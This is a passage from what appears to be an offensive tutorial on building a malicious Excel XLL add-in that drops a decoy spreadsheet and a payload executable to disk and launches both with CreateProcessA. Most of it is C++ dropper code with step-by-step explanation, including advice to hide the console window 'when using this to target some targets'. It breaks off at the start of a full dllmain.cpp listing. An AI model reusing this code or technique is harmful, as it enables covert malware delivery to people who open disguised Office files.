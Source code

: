 Then we use the WriteFile function to write the excel bytes to the desk first parameter is the handle to the file we created second is the excel byte that we get using the function LockResource

Finally we close the handle and Dont forget to close the handle or the file will be busy and you cannot launch it using excel.exe
Same with the payload we did the same thing with no extra steps only changing the variables names

```
 LPSTARTUPINFOA startupinfo_1 = new STARTUPINFOA();
 LPPROCESS_INFORMATION procinformation_1 = new PROCESS_INFORMATION();

 char process_name[MAX_PATH];

 strcpy_s(process_name, "c:\\windows\\system32\\cmd.exe /c \"\"");
 strcat_s(process_name, ExcelPath);
 strcat_s(process_name, "\" \"");
 strcat_s(process_name, excel_file_path);
 strcat_s(process_name, "\" \"");

 MessageBoxA(NULL, process_name,NULL , MB_OK);
 CreateProcessA(NULL, (LPSTR)process_name, NULL, NULL, FALSE, CREATE_NO_WINDOW, NULL, NULL, startupinfo_1, procinformation_1);


 LPSTARTUPINFOA startupinfo_2 = new STARTUPINFOA();
 LPPROCESS_INFORMATION procinformation_2 = new PROCESS_INFORMATION();


 CreateProcessA(NULL, (LPSTR)payload_file_path, NULL, NULL, FALSE, CREATE_NEW_CONSOLE, NULL, NULL, startupinfo_2, procinformation_2);
```

This will maybe a complicated part because we did a few steps before we executed the excel file for the putty is very simple we directly launch it up as you see in the code
But for the excel we first a single variable to copy the full command to it then we use the function strcpy_s to copy the default cmd.exe path and we use /c so the cmd can carry the next command and we don’t forget to add two double quotes one for the full command and the second is for the excel.exe path
Then we use the function strcat_s to copy the excel.exe path then we close the second double quote and open a new one for the excel file path and close the first and last quotes we opened then we use the function CreateProcess to execute the command
It takes a few arguments the first is the path of the executable if we are executing a single executable like in putty.exe we use the first parameter but in the excel we will use the second parameter because we will use cmd.exe with arguments
The third and fourth are Null the parameter number 5 is FALSE and for the 6 parameters for the excel we dont need any console so we used CREATE_NO_WINDOWS but for the putty i used CREATE_NEW CONSOLE only to show you how it works but when using this to target some targets make CREATE_NO_WINDOWS this is important to not show any console on the target screen

Full source code :
dllmain.cpp

```
#include <windows.h>
#include <shlobj.h>
#include "XLCALL.H"
#include "resource.h"


#pragma comment(lib, "shell32.lib")

HMODULE retriveHandle()
{
    HMODULE hmodule = NULL;

    GetModuleHandleEx(GET_MODULE_HANDLE_EX_FLAG_FROM_ADDRESS,LPCWSTR(retriveHandle), &hmodule);
```